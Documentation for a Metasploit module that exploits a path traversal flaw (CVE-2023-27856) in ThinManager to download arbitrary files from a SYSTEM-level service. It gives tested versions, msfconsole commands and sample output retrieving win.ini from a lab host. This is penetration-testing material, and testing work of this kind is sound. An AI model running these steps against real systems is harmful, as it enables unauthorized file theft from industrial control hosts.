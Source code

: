 ## Vulnerable Application

This module exploits a path traversal vulnerability in ThinManager <= v13.0.1 (CVE-2023-27856) to download an arbitrary file from the
system.

The affected service listens by default on TCP port 2031 and runs in the context of NT AUTHORITY\SYSTEM.

**Limitation**: Some files may get mangled by the application during transit.

## Testing

The software can be obtained from
[the vendor](https://thinmanager.com/downloads/).

**Successfully tested on**

- ThinManager v13.0.1 on Windows 22H2
- ThinManager v13.0.0 on Windows 22H2
- ThinManager v12.1.5 on Windows 22H2
- ThinManager v11.1.4 on Windows 22H2
- ThinManager v10.0.2 on Windows 22H2

## Verification Steps

1. Install and run the application
2. Start `msfconsole` and run the following commands:

```
msf6 > use auxiliary/gather/thinmanager_traversal_download 
msf6 auxiliary(gather/thinmanager_traversal_download) > set RHOSTS <IP>
msf6 auxiliary(gather/thinmanager_traversal_download) > set FILE <file to download>
msf6 auxiliary(gather/thinmanager_traversal_download) > run
```

This should retrieve the file as specified through FILE from the remote server.

## Options

### FILE
The file to download from the remote server.

## Scenarios

Running the exploit against ThinManager v13.0.1 on Windows 22H2 should result in an output similar to the following:

```
msf6 auxiliary(gather/thinmanager_traversal_download) > run
[*] Running module against 192.168.137.227

[*] 192.168.137.227:2031 - Running automatic check ("set AutoCheck false" to disable)
[!] 192.168.137.227:2031 - The service is running, but could not be validated.
[*] 192.168.137.227:2031 - Sending handshake...
[*] 192.168.137.227:2031 - Received handshake response.
[*] 192.168.137.227:2031 - Requesting /Windows/win.ini from 192.168.137.227
[+] 192.168.137.227:2031 - Received response from target.
[*] 192.168.137.227:2031 - File saved as loot: /home/asdf/.msf4/loot/20250506150022_default_192.168.137.227_thinmanager.file_334213.txt
[*] Auxiliary module execution completed

msf6 auxiliary(gather/thinmanager_traversal_download) > cat /home/asdf/.msf4/loot/20250506150027_default_192.168.137.227_thinmanager.file_381967.txt
[*] exec: cat /home/asdf/.msf4/loot/20250506150027_default_192.168.137.227_thinmanager.file_381967.txt

; for 16-bit app support
[fonts]
[extensions]
[mci extensions]
[files]
[Mail]
MAPI=1
```

